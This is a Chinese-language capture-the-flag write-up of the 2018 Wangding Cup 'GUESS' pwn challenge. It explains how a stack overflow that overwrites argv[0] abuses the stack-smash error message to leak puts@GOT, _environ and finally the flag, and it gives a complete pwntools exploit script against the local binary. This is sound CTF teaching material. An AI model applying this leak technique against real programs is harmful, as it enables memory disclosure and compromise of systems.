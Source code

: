 # 2018 网鼎杯 pwn--GUESS

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/1.png)

放进ida查看一下，发现题目的要求是输入一段flag，要求与flag.txt文件里的内容相同，次数限制在3次。

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/2.png)

checksec一下，明显的栈溢出漏洞，虽然开通了canary保护，但是flag已经读到栈里了。我们可以运用SSP(Stack Smashes Protect)

在程序加了canary保护之后，如果我们读取的buffer覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而stack smash技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现canary保护之后，如果发现canary被修改的话，程序就会执行__stack_chk_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下


```C
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

所以说如果我们利用栈溢出覆盖argv[0]为我们想要输出的字符串的地址，那么在__fortify_fail函数中就会输出我们想要的信息。



## 利用思路

利用栈溢出覆盖 argv[0] 为puts_got地址 --> leak libc --> leak stack --> leak flag

1. 泄漏libc的基址
2. 泄漏environ的地址（也就是栈的地址）
3. 泄漏flag

### 第一步 找到存储arg[0]的地址

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/3.png)

用gdb来查看，在_strcmp函数那下断点，运行，我们输入一个‘a’。

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/4.png)

可见 agrv[0]地址为0x7fffffffe388, 我们输入的地址为 0x7fffffffe260,距离是0x128,我们要覆盖的范围就是0x128

所以泄露的payload = ‘a' * 0x128 + 要泄露的地址

### 第二步 泄露出 puts 的真正地址，计算出 libc_base ，environ_addr 和 stack_base 

​	payload = 'a' * 0x128 + puts_got

得到 puts_addr 后，libc_addr = puts_addr - .symbols['puts']

​	environ_addr = libc_addr + .symbols['_environ']

利用libc_base和libc.symbol['environ']计算出environ在栈上的地址，然后在gdb中利用b *environ计算其栈地址和flag的栈地址之间的距离然后leak出flag

第二次泄漏_environ，也就是栈的地址，也是在argv[0]处覆盖为_environ
为什么泄漏_environ可以泄漏出栈的地址呢？
是因为：
在linux应用程序运行时，内存的最高端是环境/参数节（environment/arguments section）
用来存储系统环境变量的一份复制文件，进程在运行时可能需要。
例如，运行中的进程，可以通过环境变量来访问路径、shell 名称、主机名等信息。
该节是可写的，因此在格式串（format string）和缓冲区溢出（buffer overflow）攻击中都可以攻击该节。
*environ指针指向栈地址(环境变量位置)，有时它也成为攻击的对象，泄露栈地址，篡改栈空间地址，进而劫持控制流。

环境表是一个表示环境字符串的字符指针数组，由name=value这样类似的字符串组成,它储存在整个进程空间的的顶部，栈地址之上
其中value是一个以”\0″结束的C语言类型的字符串，代表指针该环境变量的值
一般我们见到的name都是大写，但这只是一个惯例

![image](https://raw.githubusercontent.com/lhc328/pwn/master/picture/2018%E7%BD%91%E9%BC%8E%E6%9D%AFguess/5.png)

可求出 stack_base与environ 地址差为 0x7fffffffe398 - 0x7fffffffe200 = 0x198

stack_base = environ_adr - 0x198

flag地址为 stack_base + 0x30

### 第三步 泄露出flag

payload = ’a' * 0x128 + p64(stack_base + 0x30)

exp：

```
from pwn import * 


p = process('./GUESS') 
elf = ELF('./GUESS')
libc = elf.libc

puts_got = elf.got['puts']
p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(puts_got) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
puts_addr = u64(p.recv(6).ljust(8,'\x00')) 


offset_puts = libc.symbols['puts'] 
libc_base = puts_addr - offset_puts 

offset__environ = libc.symbols['_environ']
_environ_addr = libc_base + offset__environ 

p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(_environ_addr) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
stack_base = u64(p.recv(6).ljust(8,'\x00')) - 0x198 

flag_addr = stack_base + 0x30 
p.recvuntil('guessing flag') 
payload = 'a'*0x128 + p64(flag_addr) 
p.sendline(payload) 
p.recvuntil('detected ***: ') 
flag = p.recvuntil('}') 
print flag 
p.interactive()



```

